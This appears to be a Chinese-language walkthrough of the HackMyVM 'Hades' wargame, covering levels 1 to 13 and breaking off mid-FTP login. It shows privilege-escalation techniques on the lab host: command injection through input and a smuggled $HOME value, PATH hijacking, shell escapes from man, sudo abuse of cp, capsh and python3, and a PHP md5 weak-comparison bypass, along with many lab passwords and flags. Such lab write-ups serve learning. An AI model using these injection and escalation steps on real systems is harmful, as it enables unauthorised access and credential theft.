

# hades

嗨，黑客们，欢迎来到 HMVLab 第二章：冥王哈迪斯！这是一个比第一章难度稍高的 CTF，你将继续练习你的 Linux 和 CTF 技能。
所以，让我们继续探索吧！:)
记住：
每个用户的家目录都在 /pwned/ 用户名 下，在里面你会找到一个名为 mission.txt 的文件，里面会写着
你需要完成的任务，以获取下一个用户的密码。
目录里还会有 flagz.txt 文件，
如果你在 https://hackmyvm.eu 注册过账号，可以提交这个 flag 参与排行榜（可选）。
为了保持趣味性，这里还有更多隐藏关卡和隐藏 flag哦：D
大部分文件夹你都没有写入权限，所以如果你需要编写脚本或存放文件，
请使用 /tmp 目录，但要注意：这个目录会被定期清空……
最后（同样重要）：
有些用户可以修改位于 /www 文件夹下的文件，这些文件可以通过 http://hades.hackmyvm.eu 访问。所以如果你拿到一个能修改 /www/limbo.txt 的用户权限，
你就可以写入一段内容，它会显示在 http://hades.hackmyvm.eu/limbo.txt 上。
如果你有疑问、想法或想交流任何内容，可以加入我们的 Discord：
https://discord.gg/DxDFQrJ
记住还有其他人在玩，请保持礼貌。
黑客愉快，玩得开心！

## level1

```bash
cat mission.txt
################
# MISSION 0x01 #
################

## EN ##
User acantha has left us a gift to obtain her powers.

## ES ##
La usuaria acantha nos ha dejado un regalo para obtener sus poderes.

find / -name *gift* 2>/dev/null
/usr/share/man/man1/giftopnm.1.gz
/usr/bin/giftopnm
/opt/gift_hacker

scp -P 6666 hacker@hades.hackmyvm.eu:/opt/gift_hacker ./
```

gift_hacker 的 伪C代码：

```c
int32_t main (void) {
    int64_t var_28h;
    int64_t var_20h;
    int64_t var_19h;
    rax = 0x644b69706b54755e;
    rdx = 0x7367426577786c6b;
    var_28h = rax;
    var_20h = rdx;
    rax = 0x5e4b7978727073;
    var_19h = rax;
    edi = 0x7fb;
    setuid ();
    edi = 0x7fb;
    setgid ();
    rax = "/bin/bash";
    rdi = rax;
    eax = 0;
    system ();
    eax = 0;
    return rax;
}
```

```shell
/opt/gitf_hacker
acantha@hades:~$
# 它会切换到acantha 页面
# 我们找一下他的密码。
find / -user acantha -type f 2>/dev/null | grep -v "proc"
/pazz/acantha_pass.txt
cat /pazz/acantha_pass.txt
mYYLhLBSkrzZqFydxGkn
```

## level2

```shell
acantha@hades:~$ ls -al
total 48
drwxr-x--- 2 root    acantha  4096 Apr  5  2024 .
drwxr-xr-x 1 root    root     4096 Apr  5  2024 ..
-rw-r--r-- 1 acantha acantha   220 Apr 23  2023 .bash_logout    
-rw-r--r-- 1 acantha acantha  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 acantha acantha   807 Apr 23  2023 .profile        
-rw-r----- 1 root    acantha    22 Apr  5  2024 flagz.txt       
-rw-r-x--- 1 root    acantha 16064 Apr  5  2024 guess           
-rw-r----- 1 root    acantha   275 Apr  5  2024 mission.txt     
acantha@hades:~$ cat flagz.txt
^CaEuVJtJjaCwZtuuAFD^
acantha@hades:~$ cat mission.txt
################
# MISSION 0x02 #
################

## EN ##
The user alala has left us a program, if we insert the 6 correct numbers, she gives us her password!

## ES ##
La usuaria alala nos ha dejado un programa, si insertamos los 6 numeros correctos, nos da su password!
```

```shell
scp -P 6666 acantha@hades.hackmyvm.eu:~/guess ./
```

guess 的 伪C代码：

```c
int32_t main (int32_t argc, char ** argv) {
    char ** var_28h;
    int32_t var_1ch;
    int64_t var_ch;
    rdi = argc;
    rsi = argv;
    var_1ch = edi;
    var_28h = rsi;
    rax = "Enter PIN code:\n ";
    eax = 0;
    printf (rax);
    rax = &var_ch;
    rsi = rax;
    rax = data_00002016;
    rdi = rax;
    eax = 0;
    isoc99_scanf ();
    eax = var_ch;
    if (eax == 0x16f8) {
        rax = "DsYzpJQrCEndEWIMxWxu";
        eax = 0;
        printf (rax);
    } else {
        rax = "\nNO :_(";
        puts (rax);
    }
    eax = 0;
    return rax;
}
```

```shell
./guess
Enter PIN code:
 0x16f8
DsYzpJQrCEndEWIMxWxu
```

## level3 (man)

```shell
alala@hades:~$ ls -al
total 52
drwxr-x--- 2 root   alala   4096 Apr  5  2024 .
drwxr-xr-x 1 root   root    4096 Apr  5  2024 ..
-rw-r--r-- 1 alala  alala    220 Apr 23  2023 .bash_logout      
-rw-r--r-- 1 alala  alala   3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 alala  alala    807 Apr 23  2023 .profile
-r--r----- 1 althea althea    21 Apr  5  2024 althea_pass.txt   
-rw-r----- 1 root   alala     22 Apr  5  2024 flagz.txt
-rw-r----- 1 root   alala    164 Apr  5  2024 mission.txt       
-rwS--s--- 1 root   alala  16056 Apr  5  2024 read
alala@hades:~$ cat flagz.txt
^gTdGmkwhDrCqKrDQpxH^
alala@hades:~$ cat mission.txt
################
# MISSION 0x03 #
################

## EN ##
User althea loves reading Linux help.

## ES ##
A la usuaria althea le encanta leer la ayuda de Linux.
alala@hades:~$ ./read
```

./read 相当于 man man这条命令，./read 具有suid位，可以进行提权。

```shell
./read
# !echo 1
1
!done  (press RETURN)
# !whoami
althea
!done  (press RETURN)
# !ls -al
total 52
drwxr-x--- 2 root   alala   4096 Apr  5  2024 .
drwxr-xr-x 1 root   root    4096 Apr  5  2024 ..
-rw-r--r-- 1 alala  alala    220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 alala  alala   3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 alala  alala    807 Apr 23  2023 .profile
-r--r----- 1 althea althea    21 Apr  5  2024 althea_pass.txt
-rw-r----- 1 root   alala     22 Apr  5  2024 flagz.txt
-rw-r----- 1 root   alala    164 Apr  5  2024 mission.txt
-rwS--s--- 1 root   alala  16056 Apr  5  2024 read
!done  (press RETURN)
# !cat althea_pass.txt
ObxEmwisYjERrDfvSbdA
!done  (press RETURN)
```

man man 的suid提权。

```shell
man man
!/bin/sh # 这里 ! 开头，可以进行命令执行。
```

## level4

```shell
ls -al
total 52
drwxr-x--- 2 root      althea     4096 Apr  5  2024 .
drwxr-xr-x 1 root      root       4096 Apr  5  2024 ..
-rw-r--r-- 1 althea    althea      220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 althea    althea     3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 althea    althea      807 Apr 23  2023 .profile
-r--r----- 1 andromeda andromeda    21 Apr  5  2024 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Apr  5  2024 flagz.txt
-rwS--s--- 1 root      althea    16216 Apr  5  2024 lsme
-rw-r----- 1 root      althea      205 Apr  5  2024 mission.txt
althea@hades:~$ cat flagz.txt
^btDtPAPzSiXmoHItpqX^
althea@hades:~$ cat mission.txt
################
# MISSION 0x04 #
################

## EN ##
The user andromeda has left us a program to list directories.

## ES ##
La usuaria andromeda nos ha dejado un programa para listar directorios.
althea@hades:~$ ./lsme
Enter file to check:
.
total 28
-r--r----- 1 andromeda andromeda    21 Apr  5  2024 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Apr  5  2024 flagz.txt
-rwS--s--- 1 root      althea    16216 Apr  5  2024 lsme
-rw-r----- 1 root      althea      205 Apr  5  2024 mission.txt
althea@hades:~$ ./lsme 
Enter file to check:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
/bin/ls: cannot access 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa': No such file or directory
Segmentation fault
# 猜测这里是 /bin/ls + 我们输入的内容。
./lsme 
Enter file to check:
;id
total 28
-r--r----- 1 andromeda andromeda    21 Apr  5  2024 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Apr  5  2024 flagz.txt
-rwS--s--- 1 root      althea    16216 Apr  5  2024 lsme
-rw-r----- 1 root      althea      205 Apr  5  2024 mission.txt
uid=2046(andromeda) gid=2045(althea) groups=2045(althea)
# 但是无法cat andromeda_pass.txt
./lsme 
Enter file to check:
;/bin/sh
total 28
-r--r----- 1 andromeda andromeda    21 Apr  5  2024 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Apr  5  2024 flagz.txt
-rwS--s--- 1 root      althea    16216 Apr  5  2024 lsme
-rw-r----- 1 root      althea      205 Apr  5  2024 mission.txt

whoami
andromeda

cat andromeda_pass.txt
OTWGTbHzrxhYFSTlKcOt
```

## level5(环境变量劫持)

```shell
andromeda@hades:~$ ls -al
total 52
drwxr-x--- 2 root      andromeda  4096 Apr  5  2024 .
drwxr-xr-x 1 root      root       4096 Apr  5  2024 ..
-rw-r--r-- 1 andromeda andromeda   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 andromeda andromeda  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 andromeda andromeda   807 Apr 23  2023 .profile
-r--r----- 1 anthea    anthea       21 Apr  5  2024 anthea_pass.txt
-rw-r----- 1 root      andromeda    22 Apr  5  2024 flagz.txt
-rw-r----- 1 root      andromeda   166 Apr  5  2024 mission.txt
-rwS--s--- 1 root      andromeda 16056 Apr  5  2024 uid
andromeda@hades:~$ cat flagz.txt
^xzsHGrOeNctIZLGKzWq^
andromeda@hades:~$ cat mission.txt
################
# MISSION 0x05 #
################

## EN ##
The user anthea reminds us who we are.

## ES ##
La usuaria anthea procura que no olvidemos quien somos.
```

这道题使用的是环境变量劫持，在linux中，我们可以直接输入`cat`，主要是因为`$PATH`中用`/usr/bin`，我们输入的命令受`$PATH`的影响。

```shell
andromeda@hades:~$ mkdir /tmp/2
andromeda@hades:~$ ln -s /bin/bash /tmp/2/id
# 创建一个软连接
andromeda@hades:~$ PATH="/tmp/2:${PATH}"
andromeda@hades:~$ echo $PATH
/tmp/2:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# 当我们运行uid的话，它就运行的/tmp/2/id.
andromeda@hades:~$ ./uid
# ./uid 就是 id 命令
anthea@hades:~$ cat anthea_pass.txt
yWFLtSNQArEBTHtWgkKd
```

## level6(与ascii值相关)

```shell
anthea@hades:~$ ls -al
total 52
drwxr-x--- 2 root      anthea     4096 Apr  5  2024 .
drwxr-xr-x 1 root      root       4096 Apr  5  2024 ..
-rw-r--r-- 1 anthea    anthea      220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anthea    anthea     3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 anthea    anthea      807 Apr 23  2023 .profile
-r--r----- 1 aphrodite aphrodite    21 Apr  5  2024 aphrodite_pass.txt
-rw-r----- 1 root      anthea       22 Apr  5  2024 flagz.txt
-rw-r----- 1 root      anthea      175 Apr  5  2024 mission.txt
-rwS--s--- 1 root      anthea    16256 Apr  5  2024 obsessed
anthea@hades:~$ cat mission.txt
################
# MISSION 0x06 #
################

## EN ##
User aphrodite is obsessed(着迷) with the number 94.

## ES ##
La usuaria aphrodite esta obsesionada con el numero 94.
anthea@hades:~$ ./obsessed
No MYID ENV
# 告诉我们没有环境变量
anthea@hades:~$ export MYID=94
anthea@hades:~$ ./obsessed
Current MYID: 57
Incorrect MYID
```

其实这里只读了9，9的ascii值是：57。94 对应的是 ^，所以只要我们设置`export MYID=^`，密码就正确了。

```shell
anthea@hades:~$ export MYID=^
anthea@hades:~$ ./obsessed
Current MYID: 94
aphrodite@hades:~$ whoami
aphrodite
aphrodite@hades:~$ ls -al
total 52
drwxr-x--- 2 root      anthea     4096 Apr  5  2024 .
drwxr-xr-x 1 root      root       4096 Apr  5  2024 ..
-rw-r--r-- 1 anthea    anthea      220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anthea    anthea     3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 anthea    anthea      807 Apr 23  2023 .profile
-r--r----- 1 aphrodite aphrodite    21 Apr  5  2024 aphrodite_pass.txt
-rw-r----- 1 root      anthea       22 Apr  5  2024 flagz.txt
-rw-r----- 1 root      anthea      175 Apr  5  2024 mission.txt
-rwS--s--- 1 root      anthea    16256 Apr  5  2024 obsessed
aphrodite@hades:~$ cat aphrodite_pass.txt
HPJVaqRzieKQeyyATsFv
```

## level7

```shell
aphrodite@hades:~$ ls -al
total 52
drwxr-x--- 2 root      aphrodite  4096 Apr  5  2024 .
drwxr-xr-x 1 root      root       4096 Apr  5  2024 ..
-rw-r--r-- 1 aphrodite aphrodite   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 aphrodite aphrodite  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 aphrodite aphrodite   807 Apr 23  2023 .profile
-r--r----- 1 ariadne   ariadne      21 Apr  5  2024 ariadne_pass.txt
-rw-r----- 1 root      aphrodite    22 Apr  5  2024 flagz.txt
-rwS--s--- 1 root      aphrodite 16216 Apr  5  2024 homecontent
-rw-r----- 1 root      aphrodite   185 Apr  5  2024 mission.txt
aphrodite@hades:~$ echo $HOME
/pwned/aphrodite
aphrodite@hades:~$ ./homecontent
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
```

这道题是 $HOME 变量注入，`./homecontent` 相当于执行 `ls $HOME`。

```shell
aphrodite@hades:~$ export HOME="/pwned/aphrodite;id" && ./homecontent
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
uid=2049(ariadne) gid=2048(aphrodite) groups=2048(aphrodite)
# id 是 ariadne
aphrodite@hades:/pwned/aphrodite$ export HOME="/pwned/aphrodite;cat ariadne_pass.txt" && ./homecontent    
The content of your HOME is:
ariadne_pass.txt  flagz.txt  homecontent  mission.txt
iNgNazuJrmhJKWixktzk
```

## level8(cp sudo 提权)

```shell
ariadne@hades:~$ ls -al
total 32
drwxr-x--- 2 root    ariadne 4096 Apr  5  2024 .
drwxr-xr-x 1 root    root    4096 Apr  5  2024 ..
-rw-r--r-- 1 ariadne ariadne  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 ariadne ariadne 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 ariadne ariadne  807 Apr 23  2023 .profile
-rw-r----- 1 root    ariadne   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root    ariadne  165 Apr  5  2024 mission.txt
ariadne@hades:~$ cat flagz.txt
^FuGFaFNhtKNxUInxAtd^
ariadne@hades:~$ cat mission.txt
################
# MISSION 0x08 #
################

## EN ##
The user arete lets us use cp on her behalf.

## ES ##
La usuaria arete nos deja usar cp en su nombre.
ariadne@hades:~$ whereis cp
cp: /usr/bin/cp /usr/share/man/man1/cp.1.gz
ariadne@hades:~$ ls -al /usr/bin/cp
-rwxr-xr-x 1 root root 151152 Sep 20  2022 /usr/bin/cp
ariadne@hades:~$ find / -name cp 2>/dev/null
/usr/bin/cp
```

可以看到 `cp` 没有suid位 。

```shell
ariadne@hades:~$ find / -name arete_pass* 2>/dev/null
/run/lock/arete_pass.txt
/var/tmp/arete_pass.txt
ariadne@hades:~$ sudo -l
Matching Defaults entries for ariadne on hades:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ariadne may run the following commands on hades:
    (arete) NOPASSWD: /bin/cp
    
ariadne@hades:~$ sudo -u arete /bin/cp /run/lock/arete_pass.txt /tmp/123/
ariadne@hades:/tmp/123$ cat arete_pass.txt
cat: arete_pass.txt: Permission denied
ariadne@hades:/tmp/123$ touch txt
ariadne@hades:/tmp/123$ chmod 777 txt
ariadne@hades:/tmp/123$ sudo -u arete /bin/cp /run/lock/arete_pass.txt /tmp/123/txt
ariadne@hades:/tmp/123$ ls -al
total 8
drwxrwxrwx  2 ariadne ariadne   80 Mar 10 06:29 .
drwxr-x-wx 11 root    root    1040 Mar 10 06:11 ..
-rw-r-----  1 arete   arete     21 Mar 10 06:14 arete_pass.txt
-rwxrwxrwx  1 ariadne ariadne   21 Mar 10 06:29 txt
ariadne@hades:/tmp/123$ cat txt
QjrIovHacmGWxVjXRLmA
```

## level9

```bash
arete@hades:~$ ls -al
total 32
drwxr-x--- 2 root  arete 4096 Apr  5  2024 .
drwxr-xr-x 1 root  root  4096 Apr  5  2024 ..
-rw-r--r-- 1 arete arete  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 arete arete 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 arete arete  807 Apr 23  2023 .profile
-rw-r----- 1 root  arete   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root  arete  227 Apr  5  2024 mission.txt
arete@hades:~$ cat flagz.txt
^qmrrbGUXLTqLFDyCDlx^
arete@hades:~$ cat mission.txt
################
# MISSION 0x09 #
################

## EN ##
The user artemis allows us to use some binary(二进制文件) on her behalf(代表). Its a gift...

## ES ##
La usuaria artemis nos permite usar algun binario en su nombre. Es un regalo...

arete@hades:~$ find / -name *binary* -type f 2>/dev/null
/usr/share/mime/application/x-macbinary.xml
/usr/share/mime/application/vnd.ms-excel.sheet.binary.macroenabled.12.xml
/usr/share/mime/application/vnd.debian.binary-package.xml
/usr/share/mime/model/gltf-binary.xml
/var/lib/apt/lists/deb.debian.org_debian_dists_bookworm-updates_main_binary-amd64_Packages.lz4
/var/lib/apt/lists/deb.debian.org_debian_dists_bookworm_main_binary-amd64_Packages.lz4
/var/lib/apt/lists/deb.debian.org_debian-security_dists_bookworm-security_main_binary-amd64_Packages.lz4  

arete@hades:~$ find / -name *gift* -type f 2>/dev/null
/usr/share/man/man1/giftopnm.1.gz
/usr/bin/giftopnm
/opt/gift_hacker

arete@hades:~$ ls -al /opt/gift_hacker
-rwSr-s--- 1 root hacker 16064 Apr  5  2024 /opt/gift_hacker

arete@hades:~$ ls -al /usr/bin/giftopnm
-rwxr-xr-x 1 root root 26568 Jan 11  2023 /usr/bin/giftopnm

arete@hades:~$ sudo -l
Matching Defaults entries for arete on hades:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User arete may run the following commands on hades:
    (artemis) NOPASSWD: /sbin/capsh
    
arete@hades:~$ sudo -u artemis /sbin/capsh --help
usage: /sbin/capsh [args ...]
  --addamb=xxx   add xxx,... capabilities to ambient set
  --cap-uid=<n>  use libcap cap_setuid() to change uid
  --caps=xxx     set caps as per cap_from_text()
  --chroot=path  chroot(2) to this path
  --current      show current caps and IAB vectors
  --decode=xxx   decode a hex string to a list of caps
  --delamb=xxx   remove xxx,... capabilities from ambient
  --drop=xxx     drop xxx,... caps from bounding set
  --explain=xxx  explain what capability xxx permits
  --forkfor=<n>  fork and make child sleep for <n> sec
  --gid=<n>      set gid to <n> (hint: id <username>)
  --groups=g,... set the supplemental groups
  --has-a=xxx    exit 1 if capability xxx not ambient
  --has-b=xxx    exit 1 if capability xxx not dropped
  --has-ambient  exit 1 unless ambient vector supported
  --has-i=xxx    exit 1 if capability xxx not inheritable
  --has-p=xxx    exit 1 if capability xxx not permitted
  --has-no-new-privs  exit 1 if privs not limited
  --help, -h     this message (or try 'man capsh')
  --iab=...      use cap_iab_from_text() to set iab
  --inh=xxx      set xxx,.. inheritable set
  --inmode=<xxx> exit 1 if current mode is not <xxx>
  --is-uid=<n>   exit 1 if uid != <n>
  --is-gid=<n>   exit 1 if gid != <n>
  --keep=<n>     set keep-capability bit to <n>
  --killit=<n>   send signal(n) to child
  --license      display license info
  --mode         display current libcap mode
  --mode=<xxx>   set libcap mode to <xxx>
  --modes        list libcap named modes
  --no-new-privs set sticky process privilege limiter
  --noamb        reset (drop) all ambient capabilities
  --noenv        no fixup of env vars (for --user)
  --print        display capability relevant state
  --quiet        if first argument skip max cap check
  --secbits=<n>  write a new value for securebits
  --shell=/xx/yy use /xx/yy instead of /bin/bash for --
  --strict       toggle --caps, --drop and --inh fixups
  --suggest=text search cap descriptions for text
  --supports=xxx exit 1 if capability xxx unsupported
  --uid=<n>      set uid to <n> (hint: id <username>)
  --user=<name>  set uid,gid and groups to that of user
  ==             re-exec(capsh) with args as for --
  =+             cap_launch capsh with args as for -+
  --             remaining arguments are for /bin/bash
  -+             cap_launch /bin/bash with remaining args
                 (without -- [/sbin/capsh] will simply exit(0))
arete@hades:~$ sudo -u artemis /sbin/capsh --    
artemis@hades:/pwned/arete$ 
```

可以看到提权成功。

```shell
artemis@hades:/pwned/arete$ find / -name artemis_pass* -type f 2>/dev/null
/usr/share/artemis_pass.txt
artemis@hades:/pwned/arete$ cat /usr/share/artemis_pass.txt
HIiaojeORLaJBVSPDDCZ
```

## level10

```shell
artemis@hades:~$ echo $0
-rbash
artemis@hades:~$ ls -al
total 48
drwxr-x--- 2 root    artemis  4096 Apr  5  2024 .
drwxr-xr-x 1 root    root     4096 Apr  5  2024 ..
-rw-r--r-- 1 artemis artemis   220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 artemis artemis  3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 artemis artemis   807 Apr 23  2023 .profile
-rw-r----- 1 root    artemis    22 Apr  5  2024 flagz.txt
-rw-r----- 1 root    artemis   202 Apr  5  2024 mission.txt
-rw---x--- 1 root    artemis 16056 Apr  5  2024 restricted
artemis@hades:~$ cat mission.txt
################
# MISSION 0x10 #
################

## EN ##
We need /bin/bash so that the user asia gives us her password.

## ES ##
Necesitamos /bin/bash para que la usuaria asia nos de su password.
artemis@hades:~$ bash
artemis@hades:~$ echo $0
bash
artemis@hades:~$ ./restircted
bash: ./restircted: No such file or directory
artemis@hades:~$ ./restricted
Your SHELL is: /bin/rbash

djqWtkLisbQlrGtLYHCv
```

## level11

```shell
asia@hades:~$ ls -al
total 32
drwxr-x--- 2 root asia 4096 Apr  5  2024 .
drwxr-xr-x 1 root root 4096 Apr  5  2024 ..
-rw-r--r-- 1 asia asia  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 asia asia 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 asia asia  807 Apr 23  2023 .profile
-rw-r----- 1 root asia   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root asia  188 Apr  5  2024 mission.txt
asia@hades:~$ cat mission.txt
################
# MISSION 0x11 #
################

## EN ##
The user asteria is teaching us to program in python. 

## ES ##
La usuaria asteria nos esta enseñando a programar en python.
asia@hades:/usr/share/gcc/python$ sudo -l
Matching Defaults entries for asia on hades:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User asia may run the following commands on hades:
    (asteria) NOPASSWD: /usr/bin/python3
asia@hades:/usr/share/gcc/python$ cd
asia@hades:~$ cd /tmp/123
asia@hades:/tmp/123$ vim
-bash: vim: command not found
asia@hades:/tmp/123$ echo "import os; os.system('ls');" > 1.py
asia@hades:/tmp/123$ sudo -u asteria /usr/bin/python3 1.py
1.py  arete_pass.txt  txt
asia@hades:/tmp/123$ echo "import os; os.system('whoami');" > 1.py
asia@hades:/tmp/123$ sudo -u asteria /usr/bin/python3 1.py
asteria
asia@hades:/tmp/123$ find / -name asteria_pass* 2>/dev/null
/usr/share/doc/asteria_pass.txt
asia@hades:/tmp/123$ echo "import os; os.system('cat /usr/share/doc/asteria_pass.txt');" > 1.py
asia@hades:/tmp/123$ sudo -u asteria /usr/bin/python3 1.py
hawMVJCYrBgoDAMVhuwT
```

这一关是真没想到用`sudo -l`查找是否有可以用于提权的。

## level12

```shell
asteria@hades:~$ ls -al
total 36
drwxr-x--- 2 root    asteria 4096 Apr  5  2024 .
drwxr-xr-x 1 root    root    4096 Apr  5  2024 ..
-rw-r--r-- 1 asteria asteria  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 asteria asteria 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 asteria asteria  807 Apr 23  2023 .profile
-rw-r----- 1 root    asteria   22 Apr  5  2024 flagz.txt
-rw-r----- 1 root    asteria  145 Apr  5  2024 mission.txt
-rw-r----- 1 root    asteria  161 Apr  5  2024 sihiri_old.php
asteria@hades:~$ cat flagz.txt
^xSRhIftMsAwWvBAnqNZ^
asteria@hades:~$ cat mission.txt
################
# MISSION 0x12 #
################

## EN ##
The user astraea believes in magic.

## ES ##
La usuaria astraea cree en la magia.
asteria@hades:~$ cat sihiri_old.php

<?php
$pass = hash('md5', $_GET['pass']);
$pass2 = hash('md5',"ASTRAEA_PASS");
if($pass == $pass2){
print("ASTRAEA_PASS");
}
else{
print("Incorrect ^^");
}
?>

asteria@hades:~$ curl localhost
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
asteria@hades:~$ ls -al /var/www/html
total 28
drwxr-xr-x 2 root     root     4096 Apr  5  2024 .
drwxr-xr-x 4 root     root     4096 Apr  5  2024 ..
-r--r----- 1 www-data www-data 2061 Jan  1  1985 id.zip
-r--r----- 1 www-data www-data  195 Mar 13  1977 irene_auth.php
-rw------- 1 www-data www-data  106 Aug 31  1992 req.php
-r--r----- 1 www-data www-data 1037 Apr  8  1983 request.php
-r--r----- 1 www-data www-data  169 Jul 19  2023 sihiri.php
asteria@hades:~$ curl http://localhost/sihiri.php -i -s
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 11 Mar 2026 05:02:40 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive


Incorrect ^^
asteria@hades:~$ curl http://localhost/sihiri.php?pass=240610708 -i -s
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Wed, 11 Mar 2026 05:11:48 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive


nZkEYtjvHElOtupXKzTE
```

md5弱比较。

## level13

```shell
asteria@hades:~$ ssh astraea@localhost
astraea@localhost's password:
^KssHQIAFsxUamecyXIUk^
Connection to localhost closed.
```

连接上后又断开了连接。我们通过asteria看一下/etc/ssh/sshd_config文件，它是ssh的配置文件。

```shell
asteria@hades:~$ cat /etc/ssh/sshd_config


Include /etc/ssh/sshd_config.d/*.conf

KbdInteractiveAuthentication no
UsePAM yes
X11Forwarding yes
PrintMotd no

AcceptEnv LANG LC_*
Subsystem       sftp    /usr/lib/openssh/sftp-server

Banner /etc/motd
PubkeyAuthentication yes
AuthorizedKeysFile      .ssh/authorized_keys .ssh/authorized_keys2      
ClientAliveInterval 900

Match User astraea
  PasswordAuthentication yes
  ForceCommand /bin/echo '^KssHQIAFsxUamecyXIUk^'


Match user delia
ForceCommand /bin/bash
```

```bash
Match User astraea # 匹配用户为 astraea 的用户
	PasswordAuthentication yes  # 允许密码连接，即使全局禁用了密码登录,这个用户仍然可以用密码
  	ForceCommand /bin/echo '^KssHQIAFsxUamecyXIUk^'
	# 强制执行该命令， 无论用户尝试执行什么命令,都只会执行这个命令
	# 用户登录后会自动执行 echo '^KssHQIAFsxUamecyXIUk^',然后断开连接
	# 这是一种安全限制,防止用户执行任意命令
```

`BusyBos` ：

- BusyBox 是一个集成了很多常用命令的可执行文件
- 它常见于 Linux、嵌入式设备、路由器、救援系统、容器精简环境
- 它的目标是：用尽量小的体积，提供尽量多的基础系统功能

比如一个 busybox 文件里，可能包含：

- 文件命令：ls、cp、mv、rm
- 文本命令：cat、grep、echo
- 进程命令：ps、kill
- shell：sh
- 网络命令：ping、wget、ifconfig

所以它不是“某一个具体命令”，而更像是：

- 一个命令集合
- 一个多功能工具箱
- 一个单文件版的小型 Unix 用户空间

**它最大的特点**

- 只有一个二进制文件
- 但能充当很多命令来使用

在/var/tmp目录下存在一个busybox，我们可以通过它执行netstat命令查看本地端口。

```shell
asteria@hades:/var/tmp$ ./busybox netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.11:39951        0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 :::1965                 :::*                    LISTEN
tcp        0      0 :::80                   :::*                    LISTEN
tcp        0      0 :::21                   :::*                    LISTEN
tcp        0      0 :::22                   :::*                    LISTEN
udp        0      0 127.0.0.11:49149        0.0.0.0:*                   

udp        0      0 0.0.0.0:50638           0.0.0.0:*   
```

可以看到21端口，ftp服务端口，可以传输文件。

```shell
asteria@hades:/var/tmp$ cd /tmp/123
asteria@hades:/tmp/123$ ls -al
total 12
drwxrwxrwx  2 ariadne ariadne  100 Mar 10 07:47 .
drwxr-x-wx 11 root    root    1040 Mar 10 06:11 ..
-rw-r--r--  1 asia    asia      61 Mar 10 07:49 1.py
-rw-r-----  1 arete   arete     21 Mar 10 06:14 arete_pass.txt
-rwxrwxrwx  1 ariadne ariadne   21 Mar 10 06:29 txt
asteria@hades:/tmp/123$ ftp localhost
Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.3)
Name (localhost:asteria): astraea
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
